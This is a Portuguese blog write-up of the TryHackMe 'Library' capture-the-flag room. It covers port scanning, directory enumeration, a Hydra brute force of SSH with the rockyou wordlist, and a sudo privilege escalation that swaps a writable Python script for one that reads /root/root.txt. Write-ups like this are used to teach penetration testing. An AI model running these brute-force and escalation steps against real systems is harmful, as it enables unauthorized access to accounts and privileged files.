 ```yaml
---
title: 'TryHackMe: Library'
author: Kertonli
categories: [TryHackMe]
tags: [Fácil, Rustscan, Nmap, Feroxbuster, Hydra]
image:
  path: assets/images/tryhackme/library/image.png
---
```


Boa tarde! Mais um desafio do site tryhackme para nós completarmos como verdadeiros hackers :p

Vamos começar com um rustscan em todas as portas:

```
rustscan -a 10.10.16.131 -r 0-65535 -- -A
```

A saída basicamente nos diz que a porta 22 e 80 estão abertas então vamos começar com a 80.

Colocando o ip no navegador nós temos um site muito simples com um formulário que não funciona. As outras páginas não redirecionam para nenhum lugar.

![alt text](assets/images/tryhackme/library/img1.png)

Sem muitas pistas, vamos fazer uma enumeração com feroxbuster:

```
┌──(kali㉿kali)-[~]
└─$ feroxbuster --url http://10.10.16.131 --wordlist /usr/share/wordlists/dirb/big.txt  
```

A rota mais interessante é /robots.txt, acessando ela temos:

![alt text](assets/images/tryhackme/thompson/img2.png)

Existe um arquivo famoso chamado rockyou que basicamente é um compilado de várias senhas vazadas no meio hacker, seguindo essa pista vamos fazer brute force no SSH com hydra e usuário meliodas (encontrado na página)

```
`┌──(kali㉿kali)-[~]
└─$ hydra -l meliodas -P /usr/share/wordlists/rockyou.txt ssh://10.10.16.131:22
```

Descobrindo a senha do meliodas vamos entrar na máquina:

```
ssh meliodas@10.10.16.131
ls
cat user.txt
```

Aqui está o pulo do gato, usando o comando sudo -l para vermos o que podemos executar podemos perceber que nós podemos executar o comando bak.py que tem um código python dentro dele. precisamos substituir esse código pelo nosso mas não temos permissão de alterar o arquivo pois não somos donos dele. Porém o meliodas é dono do diretório então podemos remover o arquivo e criar outro.

```
rm -rf bak.py
nano bak.py
```

colocamos o seguinte código:

```
# -*- coding: utf-8 -*-
import os

# Caminho do arquivo
arquivo_origem = os.path.expanduser('../../../../root/root.txt')

# Abrindo e imprimindo o conteúdo do arquivo
with open(arquivo_origem, 'r', encoding='utf-8') as arquivo:
    print(arquivo.read())
```

e aí executamos com o comando:

```
sudo /usr/bin/python3 /home/meliodas/bak.py
```

e obtemos a chave.

![alt text](assets/images/tryhackme/thompson/img3.png)